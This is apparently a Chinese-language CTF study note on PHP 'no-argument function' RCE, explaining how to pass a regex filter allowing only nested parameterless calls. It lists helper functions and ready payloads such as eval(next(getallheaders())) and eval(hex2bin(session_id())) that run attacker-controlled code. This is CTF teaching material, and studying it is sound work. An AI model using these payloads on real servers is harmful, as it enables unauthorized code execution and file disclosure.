 # 原理
	- 情景
		- 某些题目会使用类似`/[^\W]+\((?R)?\)/`的正则表达式匹配并删除某个字符串中的内容，如果替换结果为`;`则执行原字符串
		- 也就是说，我们可以传入一个类似`aaa(bbb(ccc()));`的字符串并eval
		- 此时我们可以构造特殊的payload进行RCE
	- 比如
		- `pos(localeconv())`的结果是字符串`"."`
		- `var_dump(scandir("."));`可以打印当前文件夹中的内容
		- 我们就可以使用`var_dump(scandir(pos(localeconv())));`通过那个正则的检测并打印当前文件夹的内容
	- RCE
		- 首先想想如何构造任意字符串
			- 可以从headers中拿到：`next(getallheaders())`
				- 这样可以拿到最后一个header字段
				- 如果你想拼运气的话，可以使用array_rand随机拿一个header字段
			- 可以考虑拿GET/POST参数
		- 然后传给system函数即可
- # 常用函数
	- ```
	  scandir 
	  var_dump 
	  show_source 
	  localtime 
	  time 
	  current 
	  chr 
	  pos 
	  end 
	  next 
	  prev 
	  array_reverse 
	  readfile
	  array_flip
	  array_rand
	  array_reverse
	  file_get_contents
	  ```
- # 常见payload
	- ```
	  点
	  pos(localeconv())
	  next(str_split(zend_version()))
	  1
	  end(str_split(hebrevc(crypt(next(hash_algos())))))
	  
	  chr(ord(crypt(serialize(array()))))
	  
	  Ua
	  next(getallheaders())
	  
	  eval
	  eval(implode(reset(get_defined_vars())))
	  eval(next(getallheaders()))
	  eval(hex2bin(session_id())) # 其中session_id由PHPSESSID cookie控制
	  ```
- # 绕过
	- 如果正则支持函数名使用任意字符的话，可以使用PHP的动态函数调用技巧
	- 参考： [[CTFWEB/WP/极客大挑战 2020 Roamphp4-Rceme]]
- # 其他知识点
	- ```
	  readfile()[readgzfile()]
	  读取文件并写入到输出缓冲。
	  highlight_file()[别名：show_source()]
	  语法高亮一个文件
	  scandir()
	  列出指定路径中的文件和目录
	  direname()
	  给出一个包含有指向一个文件的全路径的字符串，本函数返回去掉文件名后的目录名。
	  2/19
	  getcwd()
	  取得当前工作目录。
	  chdir($directory)
	  将 PHP 的当前目录改为 directory。
	  读取环境变量
	  get_defined_vars()
	  此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义
	  的变量。
	  getenv
	  获取一个环境变量的值
	  localeconv()
	  返回一包含本地数字及货币格式信息的数组,第一个值一直是.
	  phpversion()
	  获取当前的 PHP 版本
	  zend_version()
	  获取当前的 zend 版本（配合 str_split()割出点）
	  会话
	  session_id
	  获取/设置当前会话 ID
	  session_start
	  启动新会话或者重用现有会话
	  ```
-